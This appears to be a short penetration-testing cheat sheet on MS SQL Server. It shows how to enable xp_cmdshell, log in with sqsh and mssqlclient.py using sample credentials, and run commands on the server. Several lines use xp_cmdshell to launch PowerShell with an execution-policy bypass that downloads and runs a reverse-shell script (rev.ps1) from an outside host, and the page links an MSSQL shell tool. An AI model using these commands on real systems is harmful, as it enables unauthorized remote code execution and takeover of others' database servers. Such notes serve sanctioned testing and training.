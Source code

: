 ```yaml
---
description: Database Management System
---
```


# DBMS




## MS SQL



### Enable xp_cmdshell

```
1> EXEC sp_configure 'show advanced options', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC sp_configure 'xp_cmdshell', 1
2> GO
1> RECONFIGURE
2> GO
1> xp_cmdshell whoami
2> GO
```



### sqsh

```
$ sqsh -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')"
2> GO
```



### mssqlclient.py

```
$ mssqlclient.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.13.37/rev.ps1\")"
```



### mssql_shell.py

* [https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py)
